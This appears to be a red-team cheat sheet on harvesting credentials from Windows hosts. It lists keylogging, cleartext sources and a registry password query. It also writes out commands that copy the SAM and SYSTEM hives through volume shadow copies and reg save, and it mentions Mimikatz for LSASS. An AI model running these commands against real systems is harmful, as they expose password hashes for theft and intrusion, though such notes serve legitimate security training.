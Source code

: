 # Credential Harvesting
- Keylogging
	- [[Meterpreter]]
- Cleartext Credentials
	- Command history
	- Config files
	- Backup files
	- Shared files
	- Registry
		- `reg query <HKLM/HKCU> /f password /t REG_SZ /s
	- Source code
- SAM
	- [[Meterpreter]] hashdump 
	- Volume Shadow Copy
```powershell
wmic shadowcopy call create C:\
vssadmin list shadows

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
- Registry Hives
```powershell
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
# From here you can use impacket-secretsDump to read the hashes out. 
```
- LSASS
[[Mimikatz]] can dump and unprotect LSASS using sekurlsa and mimidrv.sys. 

# Additional Resources
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
https://seamlessintelligence.com.au/sliver_2.html
https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/windows-ad/Domain-Enumeration.md
[https://wadcoms.github.io](https://wadcoms.github.io/)
https://github.com/61106960/adPEAS

